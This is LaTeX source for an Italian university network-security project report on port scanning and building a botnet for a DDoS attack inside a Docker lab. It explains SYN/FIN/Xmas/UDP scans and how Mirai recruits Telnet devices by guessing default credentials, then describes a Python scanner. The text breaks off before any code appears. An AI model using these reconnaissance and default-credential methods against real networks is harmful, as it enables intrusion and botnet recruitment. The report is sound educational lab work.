\documentclass[a4paper, 12pt, oneside]{extbook}
\usepackage[T1]{fontenc}
\usepackage[utf8x]{inputenc}
\usepackage{geometry}
\usepackage{courier}
\usepackage[bookmarks]{hyperref}
\newgeometry{
left=   1 in,
bottom= 1.2 in,
right=  1 in,
top=    1 in
}

\usepackage{fancyhdr}

% Grafica
\usepackage{graphicx,pstricks}
\usepackage{graphics}
\graphicspath{{img/}}

% Package usati per il frontespizio
\usepackage{tikz}
\usepackage{pgf-pie}
\usepackage{pgfplots}
\pgfplotsset{width=7cm,compat=1.8}
\usetikzlibrary{patterns}


%Algorithm
\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\setlength\headheight{44.2pt}
%Page Style
\usepackage{setspace}
%\setstretch{2.5} 
\doublespace

%\cfoot{\thepage}
\lhead[]{}
\rhead[]{\leftmark}

\pagestyle{fancy}{
\lhead{
\includegraphics[scale=0.3]{img/logo/hlogo.png}}
\rhead{\footnotesize{Titolo abbreviato come intestazione}}
}

%Other
\usepackage{comment}
\usepackage{amsmath}

%Testo riempitivo
\usepackage{lipsum}

%Funzioni coding
\usepackage{listings}
\usepackage{xcolor}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}
%FINE FUNZIONI CODING



\begin{document}

%\maketitle
\begin{titlepage}
\thispagestyle{empty}
\raggedright % Allinea a sinistra

\begin{tikzpicture}
\node[anchor=south west] at (4,0) {
\includegraphics[scale=0.75]{img/logo/logo_copertina_1}};
\node[anchor=south west] at (0,1.5) {
\includegraphics{img/logo/logo_copertina_2}};
\node[anchor=south west] at (0,0.5) {\textsf{Scuola Politecnica e delle Scienze di Base}};
\node[anchor=south west] at (0,0) {\textsf{Corso di Laurea Magistrale in Ingegneria Informatica}};
\end{tikzpicture}

\vfill

{\large Progetto Network Security}
\\[1cm]
{\textbf{\textit{\LARGE Scanning and Botnet Creation for DDoS Attack}}}
\\[1cm]
{\large Anno Accademico 2022/23}

\vfill


\begin{table}[h]
Relatore
\\
\textbf{Ch.mo prof. Simon Pietro Romano}
\\

{\raggedright Candidato}
\\
\textbf{Francesco Marino}
\\
\textbf{matr. M63001190}
\end{table}

\end{titlepage}
\frontmatter

%\input{dedica.tex}

\chapter{Abstract} 

% \lipsum[1-3]

% Esempio di citazione bibliografica - vedi file "bibliography.bib"
% \cite{lamport1994latex}

In questo progetto l'intento è quello di effettuare Scanning ed OS Detection di una rete al fine di creare una botnet per un attacco DDoS. L'elaborato parte con la creazione di container docker facendo uso di DSP (Docker Security Playground), un'applicazione che consente di:
\begin{itemize}
\item Creare scenari di rete e sicurezza di rete, al fine di comprendere i protocolli di rete,
regole e problemi di sicurezza;
\item Imparare le tecniche di test di penetrazione simulando gli scenari;

\end{itemize}


{\setstretch{1.5}
\tableofcontents
}

\mainmatter


\setcounter{secnumdepth}{5}

\chapter{Scanning e DDoS}


\section{Scanning}
Lo scanning non è altro che un'ispezione molto oculata del \textbf{perimetro} di un'organizzazione o, più in generale, di una rete al fine di \textbf{individuare potenziali punti di accesso ai sistemi} del \textit{target}. Lo scanning è un'attività che viene a valle del \textit{footprinting} che invece permette il riconoscimento della rete. 
\newline La prima cosa, nello scanning, è quella di andare a \textbf{riconoscere} quali sono gli \textit{indirizzi IP} disponibili ed \textit{attivi} all'interno della rete. Per poter fare ciò, può essere utile contattarli ed attendere una risposta:
\begin{itemize}
    \item \textbf{La risposta arriva:} un nodo con quell'\textit{indirizzo IP} è attivo
    \item \textbf{La risposta non arriva:} non vi sono nodi attivi con quell' \textit{indirizzo IP}
\end{itemize}

Successivamente, è possibile verificare, sempre attraverso l'invio di pacchetti e alla risposta ottenuta, se sono presenti firewall con delle regole di filtraggio che dovrebbero essere aggirate. Per ultimo, ma non per importanza, attraverso lo \textbf{scanning} è possibile mantenere o meno l'anonimato a seconda delle tecniche di monitoraggio utilizzate. \newline Il monitoraggio può essere:
\begin{itemize}
    \item \textbf{Monitoraggio attivo:} prevede l'invio di pacchetti nella rete e un controllo delle risposte per verificare la presenza o meno di nodi attivi. Questo tipo di monitoraggio, essendo attivo, può essere più semplice da scovare
    \item \textbf{Monitoraggio passivo:} tecniche di ascolto senza invio di pacchetti nella rete che permettono di mantenere l'anonimato. 
\end{itemize}

È possibile effettuare lo scanning sia su \textbf{TCP} che su \textbf{UDP}. È ben noto che le porte sono $65'000$ ma alcune sono solo utilizzate solo su TCP, altre solo su UDP, altre per entrambe. 


\subsection{TCP Scan}
Lo scan over TCP è utile per scoprire quali sono le porte aperte di un dato indirizzo IP. In particolare, esso è necessario per lo scanning di tutte quelle porte che sono attive solo su TCP, quali: Porta 23 (Telnet), 25 (SMTP), 80 (HTTP), etc. 

\subsection{Pacchetto TCP}
La parte importante per lo scanning è l'Header del pacchetto TCP che si presenta come in foto. Oltre a dati quali porta sorgente e destinazione e il sequence number, sono presenti le "flags".


\includegraphics[scale=0.6]{UNINA_MSc_Thesis_Project/img/TCP_header.png}

Flags presenti header TCP, utili per alcune tecniche di scanning :
\begin{itemize}
%    \item CWR: gestione finestra di congestione
%    \item ECE: indica, se pari a 1, che l'host supporta ECN durante il 3WHS 
    \item URG: indica, se pari a 1, che sono presenti dati urgenti
    \item ACK: indica, se pari a 1, che il campo Acknowledgment number valido
    \item PSH: indica, se pari a 1, che i dati in arrivo non devono essere bufferizzati
    \item RST: indica, se pari a 1, che la connessione non è valida
    \item SYN: indica, se pari a 1, che l'host mittente vuole aprire una connessione TCP con il destinatario e specifica nel campo \textit{SN (Sequence Number)} il valore dell'\textit{Initial Sequence Number (ISN)}. Questo ha lo scopo di \textbf{sincronizzare} i numeri di sequenza dei due host. L'host che ha inviato il SYN deve attendere dall'host remoto un pacchetto SYN/ACK e, per avviare la connessione, deve inviare un "ACK".
    \item FIN: indica, se pari a 1, che l'host mittente del segmento vuole chiudere la connessione TCP aperta con l'host destinatario. Il mittente attende la conferma dal ricevente (con un FIN-ACK). A questo punto la connessione è ritenuta chiusa per metà: l'host che ha inviato FIN non potrà più inviare dati, mentre l'altro host ha il canale di comunicazione ancora disponibile. Quando anche l'altro host invierà il pacchetto con FIN impostato, la connessione, dopo il relativo FIN-ACK, sarà considerata completamente chiusa.
\end{itemize}

\subsubsection{SYN Scan}
Con questo tipo di scansione la connessione non viene mai attivata in quanto l'attaccante non procede mai con l'invio dell'ACK; per questo motivo, tale scansione è detta \textit{"Half-Opening scanning"}. Il SYN scan è una scansione che prevede l'invio di un pacchetto con il flag $SYN=1$ ed attende la ricezione di un $SYN-ACK$: se questo arriva, allora la porta è \textbf{aperta}; viceversa, se non arriva alcun $SYN-ACK$ la porta è \textbf{chiusa}. 

\subsubsection{FIN Scan}
Simile al SYN scan ma invia i pacchetti con flag $FIN=1$. Queste tecniche sono semplici ma meno utilizzate in quanto, in risposta a questi pacchetti TCP, possiamo avere dei comportamenti diversi a seconda del Sistema Operativo:
\begin{itemize}
    \item Specifica RFC793: 
    \begin{itemize}
        \item \textbf{Porta aperta:} Il pacchetto viene ignorato
        \item \textbf{Porta chiusa:} Viene inviato un pacchetto "RST"
    \end{itemize}
    \item Altro (ad es. Windows): rispondono inviando, in qualsiasi caso, un pacchetto TCP con flag RST attivo rendendo la scansione inefficace.
\end{itemize}

\subsection{XMASTree Scan}
Come il FIN scan ma invia i pacchetti con flag $FIN,URG,PUSH=1$. 

\subsection{UDP Scan}
L'UDP scan è una scansione utilizzata per rilevare quali sono i servizi attivi sul protocollo UDP. Normalmente gli UDP scan inviano pacchetti alle porte di un indirizzo IP da testare:
\begin{itemize}
    \item Nessun pacchetto risposta: porta chiusa
    \item Pacchetto ICMP type 3 - codice 3: porta chiusa
    \item Pacchetto ICMP type 3 - codice 1,2,9,10,13: pacchetto filtrato 
    \item Pacchetto di risposta: porta aperta 
\end{itemize}

\section{DoS}
Il Denial of Services è un attacco informatico che va a colpire la disponibilità di una risorsa all'interno di un sistema. In pratica, esso interrompe temporaneamente i servizi di un host connesso a una rete. Il Denial of Service si genera inondando il server con un numero elevato di richieste al fine di sovraccaricare i sistemi.

\section{DDoS}
Gli attacchi DDoS (Distributed Denial of Services) sono un tipo di attacco DoS che prevedono la creazione di una botnet, ovvero una rete di computer infettati che possono contattare un nodo remoto per effettuare attacchi informatici. Gli attacchi DDoS sofisticati sfruttano, in primo luogo, il modo in cui i protocolli eseguiti sui dispositivi odierni sono stati progettati per funzionare.

\subsection{Mirai Botnet Attack}
Il Mirai Botnet Attack è stato un attacco DDoS noto a partire dal 2016. Esso infetta dispositivi, li inserisce all'interno di una botnet per poi sferrare l'attacco. 

\subsubsection{Funzionamento: attacco a dizionario}
Il Mirai sfrutta tre componenti principali:
\begin{itemize}
    \item Virus: Il codice che cerca nuovi dispositivi IoT da infettare e compromettere per inserirli all'interno della botnet 
    \item CnC: Supporta un'interfaccia a riga di comando che permette, al Loader/Scanner di specificare a chi inviare l'attacco. In particolare, quando un dispositivo viene infettato, esso invia il proprio IP al CnC che si occuperà di inviarlo al Loader
    \item Loader/Scanner: si occupa di infettare il primo bot da cui parte la botnet e di caricare, sotto istruzioni del CnC, il malware sui nuovi bot vulnerabili scovati in rete. 
\end{itemize}

I passi del funzionamento sono mostrati in figura:


\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/Mirai-Botnet-Infection-Methodology.png}

Il tipo di attacco Mirai sfrutta vulnerabilità del protocollo Telnet (porta 23 o 2323) su TCP. La vulnerabilità sfruttata è legata a:
\begin{itemize}
    \item Porta 23 aperta (Telnet)
    \item User e Password lasciati di default 
\end{itemize}
Ciò è possibile poiché, se username e password sono lasciati di default, si fa uso di un \textbf{dizionario} (attacco a dizionario: \textit{bruteforce}) contenente tutti i possibili user e password di "default" quali, ad esempio, root-root, admin-admin, root-admin, etc. per tentare di effettuare il login. In caso di login riuscito, il nuovo computer può essere considerato come nuovo bot della rete. 

\setcounter{secnumdepth}{5}

\chapter{Ambiente di lavoro}

\section{Docker: container}

Docker è una tecnologia di conteinerizzazione open source che permette la creazione e l'utilizzo dei container Linux®. La tecnologia Docker utilizza il kernel di Linux e le sue funzionalità. 

\subsection{Perchè docker?}
La scelta è ricaduta in docker poiché permette di creare numerosi container con un'esigua quantità di memoria necessaria per l'esecuzione.

\subsection{Dockerfile}
Un Dockerfile è un documento di testo che contiene tutti i comandi che un utente può chiamare sulla riga di comando per assemblare un'immagine. 

Esempio di Dockerfile:
\begin{figure}[h]

\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/Dockerfile scanner.png}
\caption{Esempio dockerfile: Scanner}
\end{figure}

\section{Docker Security Playground}
Docker security playground è un framework grafico che permette la creazione e la gestione di reti contenenti container docker. 

\begin{figure}[h]

\includegraphics[scale=0.3]{UNINA_MSc_Thesis_Project/img/DSP_Features.png}
\centering
\caption{Features DSP}
\end{figure}

Per l'utilizzo, esso necessita di: \textit{Nodejs, git, docker, docker-compose e strumenti di compilazione c++/g++} e si presenta come in figura: 
\begin{figure}[h]

\includegraphics[scale=0.18]{UNINA_MSc_Thesis_Project/img/DSP_comesipresenta.png}
\centering
\caption{DSP: come si presenta}
\end{figure}

\section{Python: scapy}
Scapy è un potente \textit{programma interattivo di manipolazione dei pacchetti}. È in grado di falsificare o decodificare pacchetti di un ampio numero di protocolli, inviarli, catturarli, abbinare richieste e risposte e molto altro ancora. E' possibile utilizzare scapy su python attraverso il download e l'utilizzo della libreria ufficiale \textbf{scapy}.

Il comando più importante di scapy, in questo contesto, è il comando sr (send-receive), descritto in figura:
\begin{figure}[h]

\includegraphics[scale=0.60]{UNINA_MSc_Thesis_Project/img/scapy_sr.png}
\centering
\caption{scapy "sr()"}
\end{figure}


\setcounter{secnumdepth}{5}

\chapter{Scanning - realizzazione in python}
La prima fase dell'attacco portato a compimento è la fase di scanning. In questa fase ci si è occupati della creazione di uno script python che si presenta, all'avvio, in questo modo:

\begin{figure}[H]
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Esecuzione/Scanning_start.png}
    \centering
    \caption{Start}
    \label{fig:my_label}
\end{figure}

La prima richiesta è quella di inserimento dell'IP personale: questo è utile in quanto, una volta inserito l'IP, permette di ricercare tutti gli IP vivi all'interno di quella sottorete (considerata una subnet mask 255.255.255.0). 

Successivamente, viene generato un file \textbf{\textit{IPalive.txt}} che contiene, al suo interno, tutti gli IP "vivi" in rete. 

\begin{figure}[H]
    \centering
    
\includegraphics{UNINA_MSc_Thesis_Project/img/Esecuzione/ipalive.png}
    \caption{IPalive.txt}
    \label{fig:my_label}
\end{figure}

Successivamente, viene chiesto quale tipo di scanning effettuare:

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.6]{UNINA_MSc_Thesis_Project/img/Esecuzione/ScanningChoice.png}
    \caption{Scelta dello scanning}
    \label{fig:my_label}
\end{figure}
Al termine, si ottengono i file: "SynScan.txt", "TCPFinScan.txt", etc.. a seconda del tipo di scan scelto. Questo si presenterà con la dicitura $IP-portaAperta$:

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{UNINA_MSc_Thesis_Project/img/Esecuzione/scannerResults.png}
    \caption{Risultati dello scanning: porta 23 aperta nei due bots}
    \label{fig:my_label}
\end{figure}
% \lipsum[1][1-3]

Selezionando scan con nmap, viene fatto uso delle librerie python-nmap che scansionano le porte dalla 1 alla 2323 e dà, in output, un file contenente:
\begin{itemize}
    \item Porte aperte (+ servizio aperto)
    \item Sistema Operativo in utilizzo sull'IP
    \item ..altre informazioni
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/nmapResult.png}
    \caption{Risultati dello scanning: porta 23 aperta nei due bots}
    \label{fig:my_label}
\end{figure}

Selezionando "OS Detection" viene effettuata una detection del sistema operativo, andando ad aprire uno dei file output dello scanning e andando a verificare le porte aperte dei singoli nodi. 
Ad esempio:
\begin{itemize}
    \item Porte aperte: 135 (endpoint mapper), 139 (NetBIOS), 445 (Active Directory) \xrightarrow[]{}Windows$
    
    \item Porte aperte: 22 (SSH), 111 (SUN RPC), 2049 (NFS) \xrightarrow[]{}Linux$
    
\end{itemize}


Terminato lo scanning, digitando 6, si esce dalla fase di scanning per passare alla fase di \textbf{creazione della botnet}. 

\section{Codice}
La funzione che cerca nodi attivi all'interno della rete è la seguente. Essa procede ad una ricerca all'interno della rete facendo uso del comando "ping" di (iputils-ping) con un timeout di 2 secondi. Il sistema invia più richieste Echo ICMP (Internet Control Message Protocol - che si occupa di trasmettere informazioni riguardanti malfunzionamenti, informazioni di controllo) all'indirizzo IP o all'URL del sistema remoto. Se la risposta arriva, allora il nodo è attivo; viceversa, il nodo è spento.
\begin{figure}[H]
    \centering
